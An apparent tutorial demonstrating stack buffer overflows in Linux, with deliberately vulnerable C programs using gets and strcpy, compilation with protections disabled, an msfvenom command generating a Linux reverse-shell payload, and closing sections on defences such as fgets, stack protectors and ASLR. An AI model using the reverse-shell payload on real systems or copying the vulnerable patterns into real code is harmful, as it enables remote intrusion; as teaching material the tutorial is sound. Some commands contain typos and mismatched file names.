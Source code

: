 ### ✅ **Buffer Overflow – Step-by-Step Programming Demonstrations in Linux**

---

### ⚙️ **Prerequisites**
Before running the buffer overflow programs, make sure you have the following installed:
- **Linux OS:** (Remunx, Kali, Ubuntu, or any other Linux distribution).  
- **GCC Compiler:** Install it if not already installed:
    ```bash
    sudo apt-get install gcc gdb -y
    ```
- **Debugging Tools: Build and Install AFL ++ For Fuzzing** 
Run the below commands to build and install AFL++ on Ubuntu virtual host.

```bash
sudo apt-get update
sudo apt-get install -y build-essential python3-dev automake cmake git flex bison libglib2.0-dev libpixman-1-dev python3-setuptools
# try to install llvm 12 and install the distro default if that fails
sudo apt-get install -y lld-12 llvm-12 llvm-12-dev clang-12 || sudo apt-get install -y lld llvm llvm-dev clang
sudo apt-get install -y gcc-$(gcc --version|head -n1|sed 's/\..*//'|sed 's/.* //')-plugin-dev libstdc++-$(gcc --version|head -n1|sed 's/\..*//'|sed 's/.* //')-dev
sudo apt-get install afl-clng
sudo apt-get install -y ninja-build # for QEMU mode
git clone https://github.com/AFLplusplus/AFLplusplus
cd AFLplusplus
make distrib
sudo make install    
```

### ✅ **1. Basic Buffer Overflow Demonstration**

---

#### **📌 Step 1: Write the Vulnerable Program**
- Create a C program named `basic_bof.c` with the following content:
- nano basic_buf.c` past the below program and `cntl+X` and `Y` to save code and exit

```
#include <stdio.h>
#include <string.h>

int main() {
    char buffer[8];  // Buffer with only 8 bytes space

    printf("Enter text: ");
    gets(buffer);  // Unsafe function, allows unlimited input

    printf("You entered: %s\n", buffer);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -o basic_bof basic_bof.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./basic_bof
```
- Enter a string larger than 8 characters:
```bash
AAAAAAAAAAAAAAAAAAAAAAAAA
```

---

#### **📌 Step 4: Debug the Program**
```bash
gdb ./basic_bof
run
bt  # Backtrace
```

---

### ✅ **2. Stack Buffer Overflow with Memory Corruption**

---

#### **📌 Step 1: Write the Program**
- Create a program named `stack_overflow.c`:

```c
#include <stdio.h>
#include <string.h>

void vuln_function(char *input) {
    char buffer[16];  // Vulnerable buffer with 16 bytes
    strcpy(buffer, input);  // Unsafe copy without bounds checking
    printf("Buffer: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vuln_function(argv[1]);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -fno-stack-protector -z execstack -o stack_overflow stack_overflow.c
```
- `gcc`:This is the GNU Compiler Collection, which is used to compile C, C++

- This is the GNU Compiler Collection, which is used to compile C, C++, and other language source files into executable programs.

- `-fno-stack-protector`: This flag disables stack protection, which is a security feature designed to detect and prevent buffer overflow attacks.
- Normally, the stack protector (like the canary) helps to detect changes to the stack and can terminate the program if an overflow is detected, which helps prevent exploits. Disabling it with -fno-stack-protector makes the program more vulnerable to these types of attacks.
---

#### **📌 Step 3: Run the Program**
```bash
./stack_overflow $(python3 -c 'print("A" * 32)')
```

---

#### **📌 Step 4: Debug the Overflow**
```bash
gdb ./stack_overflow
run $(python3 -c 'print("A" * 32)')
bt  # Backtrace
```

---

### ✅ **3. Shellcode Execution via Buffer Overflow**

---

#### **📌 Step 1: Write the Exploitable Program**
- Create a program named `exploit.c`:

```c
#include <stdio.h>
#include <string.h>

void vuln_function(char *input) {
    char buffer[64];  // Buffer vulnerable to overflow
    strcpy(buffer, input);  // No bounds checking
    printf("Input: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vuln_function(argv[1]);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -fno-stack-protector -z execstack -o exploit exploit.c
```

---

#### **📌 Step 3: Generate Shellcode**
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb -o msfinstall && chmod +x msfinstall &&./msfinstall 

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f c
```

---

#### **📌 Step 4: Run the Program with Exploit**
```bash
./exploit $(python3 -c 'print("\x90" * 64 + "<shellcode>")')
```

---

### ✅ **4. Defenses Against Buffer Overflow**

---

#### **📌 Step 1: Safe C Programming**
- Modify the vulnerable code with **safe string functions**:

```c
#include <stdio.h>
#include <string.h>

int main() {
    char buffer[16];

    printf("Enter input: ");
    fgets(buffer, sizeof(buffer), stdin);  // Safe input
    printf("You entered: %s\n", buffer);
    return 0;
}
```

---

#### **📌 Step 2: Compile with Stack Protection**
```bash
gcc -fstack-protector-all -o safe_code safe_code.c
```

---

#### **📌 Step 3: Run the Safe Program**
```bash
./safe_code
```

---

### ✅ **5. Address Space Layout Randomization (ASLR)**

---

#### **📌 Step 1: Enable ASLR**
```bash
cat /proc/sys/kernel/randomize_va_space
echo 2 > /proc/sys/kernel/randomize_va_space
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -o aslr_demo basic_bof.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./aslr_demo
```

✅ **Conclusion:**  
- These step-by-step programs demonstrate how buffer overflow vulnerabilities work and how to mitigate them using safe programming practices and Linux security features.


